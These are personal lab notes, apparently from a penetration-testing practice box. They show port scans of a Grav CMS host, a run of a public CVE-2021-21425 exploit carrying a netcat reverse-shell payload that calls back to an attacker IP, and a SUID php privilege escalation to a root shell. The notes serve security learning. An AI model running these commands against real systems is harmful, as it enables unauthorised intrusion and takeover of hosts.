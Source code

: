 Linux ttl=61

# rustscan

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

# nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Index of /
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
```

# initial

Grav CMS was running on it

just easy search on google

![[Pasted image 20240618002344.png]]

![[Pasted image 20240618002410.png]]

both worked but prefer github one

https://github.com/CsEnox/CVE-2021-21425/blob/main/exploit.py

![[Pasted image 20240618002518.png]]

it says it worked but not received any output so try with rev shell

```
python3 exploit.py -t http://192.168.225.12/grav-admin -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.178 80 >/tmp/f'
```

got it!

# priv esc

```
find / -type f -perm -4000 2>/dev/null
```

SUID

```
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```